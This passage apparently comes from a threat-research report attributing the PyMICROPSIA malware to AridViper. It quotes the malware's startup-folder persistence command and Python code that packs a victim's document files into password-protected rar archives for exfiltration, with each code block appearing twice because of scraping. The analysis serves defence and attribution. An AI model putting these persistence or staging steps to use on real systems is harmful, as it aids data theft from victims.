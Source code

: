 
MS DOS


"C:\Windows\System32\cmd.exe" /c move "C:\Users\admin\AppData\Local\Temp\\ModelsControllerLib.lnk" "C:\Users\admin\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\ModelsControllerLib.lnk"




1

"C:\Windows\System32\cmd.exe" /c move "C:\Users\admin\AppData\Local\Temp\\ModelsControllerLib.lnk" "C:\Users\admin\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\ModelsControllerLib.lnk"






Relations With Other MICROPSIA Activity
We unearthed PyMICROPSIA while investigating recent MICROPSIA activity related to the Middle Eastern region, and there are multiple aspects of the malware that link the activity to AridViper, including the following examples.
Code Overlaps
One of the first things that caught our attention regarding this sample was the C2 implementation and capabilities, which are quite similar to known MICROPSIA samples. For example, see the C2 descriptions in previous research by Radware and Check Point.
Also, one of the tactics, techniques and procedures (TTPs) observed across MICROPSIA samples is the use of rar.exe to compress data for exfiltration. In this version, rar.exe is downloaded from the C2 infrastructure and used with very similar parameters as observed in previous samples:


Python


k24 = '"' + Wv + '\\*.dot' + '" '
k25 = '"' + Wv + '\\*.dotx' + '" '
AllFile = k1 + k2 + k3 + k4 + k5 + k6 + k7 + k8 + k9 + k11 + k12 + k13 + k14 + k15 + k16 + k17 + k18 + k19 + k20 + k21 + k22 + k23 + k24 + k25
AllFiles_Drvi = AllFile
flTDType = AllFiles_Drvi
te = file_D
En_crpypt2 = 'a -r -ep1 -v2.5m -ta' + te + ' -hp'
En = '4545933464930447517744759'
mm = chick_Device_Name() + En
nnWithoutdel = En_crpypt2 + mm
subprocess.call('"' + Rar_File + '"' + ' ' + (nnWithoutdel + ' ' + '"' + Zip_File2 + '_NETWORKWTHDate"' + ' ' + flTDType), shell=True)




1234567891011

k24 = '"' + Wv + '\\*.dot' + '" 'k25 = '"' + Wv + '\\*.dotx' + '" 'AllFile = k1 + k2 + k3 + k4 + k5 + k6 + k7 + k8 + k9 + k11 + k12 + k13 + k14 + k15 + k16 + k17 + k18 + k19 + k20 + k21 + k22 + k23 + k24 + k25AllFiles_Drvi = AllFileflTDType = AllFiles_Drvite = file_DEn_crpypt2 = 'a -r -ep1 -v2.5m -ta' + te + ' -hp'En = '4545933464930447517744759'mm = chick_Device_Name() + EnnnWithoutdel = En_crpypt2 + mmsubprocess.call('"' + Rar_File + '"' + ' ' + (nnWithoutdel + ' ' + '"' + Zip_File2 + '_NETWORKWTHDate"' + ' ' + flTDType), shell=True)
